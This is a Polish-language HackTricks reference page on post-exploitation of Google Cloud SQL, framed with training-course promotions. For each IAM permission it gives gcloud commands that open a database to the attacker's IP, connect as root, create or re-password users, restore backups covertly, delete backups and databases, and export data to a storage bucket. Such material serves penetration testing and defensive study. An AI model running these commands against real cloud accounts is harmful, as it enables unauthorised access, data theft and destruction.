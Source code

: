 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Dowiedz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**Grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Udostępniaj sztuczki hakerskie, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na githubie.

</details>
{% endhint %}

## Cloud SQL

Aby uzyskać więcej informacji na temat Cloud SQL, sprawdź:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Aby połączyć się z bazami danych, **wystarczy mieć dostęp do portu bazy danych** oraz znać **nazwę użytkownika** i **hasło**, nie ma żadnych wymagań IAM. Dlatego łatwym sposobem na uzyskanie dostępu, zakładając, że baza danych ma publiczny adres IP, jest zaktualizowanie dozwolonych sieci i **pozwolenie na dostęp z własnego adresu IP**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Można również użyć **`--no-backup`** aby **zakłócić tworzenie kopii zapasowych** bazy danych.

Ponieważ to są wymagania, nie jestem całkowicie pewien, do czego służą uprawnienia **`cloudsql.instances.connect`** i **`cloudsql.instances.login`**. Jeśli wiesz, prześlij PR!

### `cloudsql.users.list`

Pobierz **listę wszystkich użytkowników** bazy danych:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

To uprawnienie pozwala na **utworzenie nowego użytkownika wewnątrz** bazy danych:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

To uprawnienie pozwala na **aktualizację użytkownika wewnątrz** bazy danych. Na przykład, można zmienić jego hasło:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Kopie zapasowe mogą zawierać **stare wrażliwe informacje**, dlatego warto je sprawdzić.\
**Przywróć kopię zapasową** w bazie danych:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Aby działać w bardziej skrytym sposób, zaleca się utworzenie nowej instancji SQL i odzyskanie danych tam, zamiast w obecnie działających bazach danych.

### `cloudsql.backupRuns.delete`

To uprawnienie umożliwia usuwanie kopii zapasowych:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Eksportuj bazę danych** do kubełka Cloud Storage, aby móc uzyskać do niej dostęp stamtąd:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Zaimportuj bazę danych** (nadpisz) z kubełka Cloud Storage:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Usuń bazę danych z instancji bazy danych:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Ucz się i praktykuj Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Ucz się i praktykuj Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Udostępniaj sztuczki hakerskie, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
